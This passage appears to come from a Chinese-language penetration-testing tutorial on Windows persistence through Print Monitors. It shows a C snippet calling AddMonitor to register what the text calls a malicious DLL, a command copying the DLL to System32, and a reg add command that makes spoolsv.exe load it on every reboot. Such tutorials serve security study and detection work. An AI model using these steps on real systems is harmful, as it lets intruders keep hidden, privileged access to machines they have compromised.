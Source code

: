 ```c
    TCHAR env[12] = TEXT("Windows x64");
    TCHAR name[12] = TEXT("Monitor");
    TCHAR dll[12] = TEXT("test.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = env;
    monitorInfo.pDLLName = dll;
    AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
    return 0;
}
```

编译代码将生成一个可执行文件（在本例中为 Monitors.exe），该可执行文件将在系统上执行恶意 DLL的注册

需要将 DLL 复制到 System32 文件夹，因为根据 Microsoft文档，这是AddMonitor函数加载相关 DLL 的预期位置

```cmd
copy test.dll %systemroot%\System32
```

为了实现持久性，“ **Monitors** ”注册表位置下需要一个密钥

```cmd
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors

# Usage
reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ
```

下次重新启动时，spoolsv.exe 进程将加载 Monitors 注册表项中存在并存储在 Windows 文件夹 System32 中的所有驱动程序 DLL 文件
